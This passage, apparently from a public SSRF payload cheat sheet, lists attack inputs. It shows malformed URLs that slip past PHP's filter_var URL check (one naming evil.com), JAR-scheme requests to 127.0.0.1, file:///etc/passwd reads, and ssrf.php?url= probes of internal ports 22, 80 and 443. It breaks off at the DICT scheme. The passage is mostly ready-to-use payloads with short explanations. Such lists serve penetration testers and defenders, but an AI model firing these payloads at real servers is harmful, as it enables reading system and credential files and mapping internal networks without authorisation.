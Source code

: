 

### Bypass PHP filter_var() Function

In PHP 7.0.25, `filter_var()` function with the parameter `FILTER_VALIDATE_URL` allows URL such as:

- `http://test???test.com`
- `0://evil.com:80;http://google.com:80/ `

```php
<?php 
	echo var_dump(filter_var("http://test???test.com", FILTER_VALIDATE_URL));
	echo var_dump(filter_var("0://evil.com;google.com", FILTER_VALIDATE_URL));
?>
```


### Bypass Using JAR Scheme

This attack technique is fully blind, you won't see the result.

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server. Transforming the SSRF into a file read.

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)


### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
